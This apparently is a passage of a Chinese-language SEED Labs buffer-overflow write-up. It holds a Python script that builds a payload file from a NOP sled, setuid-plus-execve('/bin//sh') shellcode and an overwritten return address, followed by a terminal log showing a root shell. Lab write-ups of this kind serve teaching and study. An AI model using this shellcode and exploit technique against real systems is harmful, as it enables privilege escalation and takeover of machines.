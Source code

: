     <img src="缓冲区溢出攻击_static//28.png" width="500"/>
</div>

根据以上分析，构建 exploit.py 文件：

```python{.line-numbers}
import sys

shellcode = (
"\x48\x31\xff"
"\xb0\x69"
"\x0f\x05"

"\x48\x31\xd2"
"\x52"
"\x48\xb8\x2f\x62\x69\x6e\x2f"
"\x2f\x73\x68"
"\x50"
"\x48\x89\xe7"
"\x52"
"\x57"
"\x48\x89\xe6"
"\x48\x31\xc0"
"\xb0\x3b"
"\x0f\x05"
).encode('latin-1')

content = bytearray(0x90 for i in range(517))
content[517 - len(shellcode):] = shellcode

ret = 0x7fffffffdcf0 + 100
content[26:34] = (ret).to_bytes(8, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```

运行结果如下，成功获取到 root 权限。

```c{.line-numbers}
monica@xvm:~/csapp/seed-labs/category-software/Buffer_Overflow_Setuid/Labsetup/code$ ./stack-L4
str:0x7fffffffdcf0
Input size: 517
buffer:0x7fffffffd8ae  rbp:0x7fffffffd8c0
# 
```